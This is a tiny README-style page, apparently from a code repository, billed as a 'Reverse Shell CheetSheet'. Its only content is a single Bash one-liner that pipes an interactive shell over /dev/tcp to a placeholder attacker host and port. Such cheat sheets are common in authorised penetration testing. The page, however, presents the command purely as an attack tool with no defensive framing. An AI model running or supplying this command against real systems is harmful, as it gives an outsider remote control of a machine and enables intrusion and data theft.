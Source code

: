 # CheetSheet
I'ts most useful Reverse Shell CheetSheet

<h2>Bash</h2>

`bash -i >& /dev/tcp/[LocalHost]/[LocalPort] 0>&1`
